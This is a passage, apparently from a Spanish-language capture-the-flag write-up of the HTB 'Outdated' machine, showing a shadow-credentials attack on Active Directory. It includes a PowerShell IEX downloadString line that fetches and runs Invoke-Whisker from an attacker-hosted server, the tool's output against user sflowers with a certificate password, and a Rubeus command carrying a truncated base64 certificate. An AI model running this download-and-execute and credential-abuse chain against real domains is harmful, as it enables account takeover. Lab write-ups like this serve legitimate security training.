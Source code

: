 Para abusar de ello voy a utilizar Invoke-Whisker

Lo descargo y lo importo en la máquina

```null
wget https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpBinaries/Invoke-Whisker.ps1
python3 -m http.server 80
```

```null
PS C:\Temp> IEX(New-Object Net.WebClient).downloadString('http://10.10.14.2/Invoke-Whisker.ps1')
```

Al ejecutarlo, devuelve el siguiente output:

```null
PS C:\Temp> Invoke-Whisker -Command "add /target:sflowers"         
[*] No path was provided. The certificate will be printed as a Base64 blob
[*] No pass was provided. The certificate will be stored with the password LyqIj3z2DRpHGRAT
[*] Searching for the target account
[*] Target user found: CN=Susan Flowers,CN=Users,DC=outdated,DC=htb
[*] Generating certificate
[*] Certificate generaged
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID 2d277db0-628a-47b0-bca7-662c003a4743
[*] Updating the msDS-KeyCredentialLink attribute of the target object
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[*] You can now run Rubeus with the following syntax:

Rubeus.exe asktgt /user:sflowers /certificate:MIIJuAIBAzCCCXQGCSqGSIb3DQEHAaCCCWUEgglhMIIJXTCCBhYGCSqGSIb3DQEHAaCCBgcEggYDMIIF/zCCBfsGCyqGSIb3DQEMCgECoIIE/jCCBPowHAYKKoZIhvcNAQwBAzAOBAjkWJyENM76XQICB9AEggTYTzE
zwmg3y2zvmSB8V1zMM+YmhzwZIVFcKjLyJkh1xDm72LmsvSxDxyH9OGGd82b7MDZ9afWjqTaLuBWpdglh8rO5oBDmxtmBPnEPR64+9ZvWM/AR035ghLOxmO5tufYj53CKEKuzAj7GtjjLrAz/TMn/0j66fjawQilHZgv0cFLrtxttulbzgpWRl56c5NMcuObzyHpX1FBLlzHrOykI
xZ8xHWLzx9xC/jwBzn+g3qmKISNHgmSXTTQshIT5KV8wDSHxZPHNC6WvvJqxsjCQpolPDPZbaHmTRrhFYOFo5+HqS0PF3NYuyN9h5B/msZKQIySNvhvtjUZpC/5vfoWq47ymWJz25B2/Y4tOPBF9N8o/0maq+8sI+LLv2uhdhe8GdWm6CMEmMXopr3bhe2zqlHz1yedk03f9gVO4M
sYabfWAxGsm7n6Wg0O6EXiU6E+UerKdsmNKLwJ3pd7b33emjtpFwPIptWSuKQFyCSnO46hp/8mF3oy3/BJ4+LMG28kWIYbyncjHeoowvh/xf5ZPNqOyJfVJPtPeEnPTGiFt+EQI1JXL0xGBed9CO/nEmU7dNtrOtaPizK403Al+o0R7HiW/ftpe92dXHkM5vCoQbRipUE5zpZZMTi
C5VjrszMk8uk/sRPr7tsBehYQt2RpjOrpkIj2ns49VGiFCwZ9LiM7nHworZddhShPipQtnBWym7smzzX6L6qTCwHwWEJVdlMknwFnMybLxN/ja5rXbDrRTF/LlNZXkFD6hbPhseL0wKjTzK7Zeg8J/KyZwa46/ykXENiwiJuGGbR06jPoSyQMVU6CHlangqscKct8Qo2M+GYI007e
Z3bKg/fNQgLRK0tzfCfRzWyPKfSUSp6IyHW55AY9vtQkU8HgYHnNPGDP6gFWE3PwF/jMsq+nqZiRL8gJcoOT66JSKhEQQBYiKP+0wN9deS6johN6b/Azm7/sa91WdW8sxRuz11r+KHMh08Ml881s5DuxhUtol7LCv6lpM5yoph/0m/1/wjRmH7Y+bT+gaFo6Eo9NPnfMeFaH4DUfz
clYfIdjyWQWUP2LSf1lzi+RiM3C2ieOHT6uknR05DDIW5P4ZfCV9lnA4p3QXa+8PKd2tCpFs9fRuBb8bMM32j7Z7glkceBx4TTQc7ZKOcy1wZNGl5FCPEFvKjmxIN9lcyDIRVxqGzFLScS9nkHuFQrfQmnvbOwqXQAbkEiKuIg/R7C5Rs9I+LY3IXvdOO12kB/YlCMz5eFCgE7Tw3
lsCAQEm1WAnSRtDx1bDPa6cimH/p9Fc8sHLtG8MathANxRor8ZIV+EYrTTFp+Z1pIKnEWZw1mx19wXlk89hKHdmDdnnnfWYC01SjwnETzDbEs6ElEeEHz1lz+HpHGZ9+wsQd2pbvHW9bkEpve19oKppcONAtpJXoxD2fq+Sdabq8+6QBdFmIteokrx055DWpOJp/ZRMzuIGujCrji
ry3CdiEJS++Cgv8sD5d1/it2LoDCzzSDD1fvr+lYdlQpRid4v7g7hedjVwbtuL2xfY6enB+ABl2mM+DRHSPUpASoZ9sUpuQZhzzaP3O6FHDCFA4oC1/g/jOxsf0lk0MY1XS+JNYQWQhlyxbTU9Eq6nWc5R+oHH+RWqD8SaMKHyZM9Qfx8N6LMLVZWcQjGB6TATBgkqhkiG9w0BCRU
xBgQEAQAAADBXBgkqhkiG9w0BCRQxSh5IADUAZQA3ADkAYgBlADEAYwAtADYANwA3ADMALQA0ADUAMgBiAC0AYgA2ADcAMAAtAGQAMgBhADMAOQA3ADgAYwBmADMANgA0MHkGCSsGAQQBgjcRATFsHmoATQBpAGMAcgBvAHMAbwBmAHQAIABFAG4AaABhAG4AYwBlAGQAIABSAFMA
QQAgAGEAbgBkACAAQQBFAFMAIABDAHIAeQBwAHQAbwBnAHIAYQBwAGgAaQBjACAAUAByAG8AdgBpAGQAZQByMIIDPwYJKoZIhvcNAQcGoIIDMDCCAywCAQAwggMlBgkqhkiG9w0BBwEwHAYKKoZIhvcNAQwBAzAOBAiwL3QxtGYx0wICB9CAggL4gwUYu7ko7L9e1TopG2/vBtBWn
+vXD3eB7XdbLtQctO8NqCN0Mfm6vKiUSp/GkbMBlE4uYzERoQfNjBFIc5cMGJM84lXS7+eRwpu+JMdRT6TU9cwpkv0yKUiUK3UtBaLY4i4aPvA/Y+9EBcVCnFhvlBfH+2OJHMbtbpX/RkvxBk0IfRbzjkocxciXyeSq+CS5xZ81ZwWfkX2B3sK06yXZaUM0ak2mQeum+sB2mu5dS7
```